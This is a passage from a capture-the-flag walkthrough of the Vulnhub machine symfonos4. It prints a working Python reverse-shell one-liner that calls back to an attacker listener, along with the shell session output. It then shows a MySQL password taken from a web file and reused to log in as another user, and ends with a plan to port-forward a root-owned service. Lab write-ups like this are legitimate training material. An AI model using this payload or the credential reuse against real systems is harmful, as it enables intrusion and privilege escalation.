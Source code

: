 ![image](https://user-images.githubusercontent.com/87468669/219976923-0405d929-f638-4dd1-860e-13636e2b69c5.png)

cool we got RCE. now let's get a reverse shell.

![image](https://user-images.githubusercontent.com/87468669/219977259-a8a85d27-87a4-4559-a4cc-8cc9e05fc155.png)

fireup ncat listener

reverse shell payload:
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Vulnhub/symfonos1]
└─$ nc -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 192.168.0.100.
Ncat: Connection from 192.168.0.100:60000.
www-data@symfonos4:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@symfonos4:/var/www/html$
```
boom we got a reverse shell


## Privilege Escalation

![image](https://user-images.githubusercontent.com/87468669/219977645-665baf93-6e36-4a0a-92c1-e3e56abb9db6.png)

If we run `ps aux` we’ll be able to see that there is app running on `8080` as `root`.

![image](https://user-images.githubusercontent.com/87468669/219980284-2a12644f-013a-4928-80c8-b78a299d18cc.png)

checking the `/var/www/html/atlantis.php` file, we can see a cred for mysql, `root:yVzyRGw3cG2Uyt2r`. let's try su as user `poseidon` using that password 

```
www-data@symfonos4:/tmp$ su poseidon
Password: 
poseidon@symfonos4:/tmp$ id
uid=1000(poseidon) gid=1000(poseidon) groups=1000(poseidon),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
poseidon@symfonos4:/tmp$ sudo -l
bash: sudo: command not found
poseidon@symfonos4:/tmp$ 
```
boom it worked, let's escalate privs further. now we have password for user `poseidon`, let's port forward `127.0.0.1:8080` to our attacker machine, remember we got the port through the process.
